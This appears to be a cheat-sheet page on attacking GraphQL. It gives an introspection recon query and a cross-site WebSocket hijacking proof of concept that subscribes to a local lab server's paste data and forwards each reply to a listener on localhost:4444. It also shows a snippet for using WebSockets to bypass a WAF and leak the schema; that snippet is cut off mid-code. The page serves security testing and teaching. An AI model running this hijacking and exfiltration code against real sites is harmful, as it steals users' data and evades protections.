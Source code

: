 ```html
// Recon
query {
    __schema {
        subscriptionType {
            fields {
                name
            }
        }
    }
}
---------------------------------

// JavaScript code that performs WebSocket hijacking
<html>
    <h2>WebSockets Hijacking and GraphQL Subscription Response Exfiltration Demo</h2>
</html>
<script>
    const GQL = {
        CONNECTION_INIT: 'connection_init',
        CONNECTION_ACK: 'connection_ack',
        CONNECTION_ERROR: 'connection_error',
        CONNECTION_KEEP_ALIVE: 'ka',
        START: 'start',
        STOP: 'stop',
        CONNECTION_TERMINATE: 'connection_terminate',
        DATA: 'data',
        ERROR: 'error',
        COMPLETE: 'complete'
    }
    ws = new WebSocket('ws://localhost:5013/subscriptions');
    ws.onopen = function start(event) {
        var query = 'subscription getPaste {paste { id title content ipAddr userAgent public owner {name} } }';
        var graphqlMsg = {
            type: GQL.START,
            payload: {query}
        };
        ws.send(JSON.stringify(graphqlMsg));
    }
    ws.onmessage = function handleReply(event) {
        data = JSON.parse(event.data) 
        fetch('http://localhost:4444/?'+ JSON.stringify(data), {mode: 'no-cors'}); 
    }
</script>
```

As mentioned in [**this talk**](https://www.youtube.com/watch?v=tIo_t5uUK50), check if it might be possible to connect to graphQL via WebSockets as that might allow you to bypass a potential WAF and make the websocket communication leak the schema of the graphQL:

```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
  var GQL_CALL = {
    extensions: {},
    query: `
        {
            __schema {
                _types {
                    name
                }
            }
        }`,
  }
```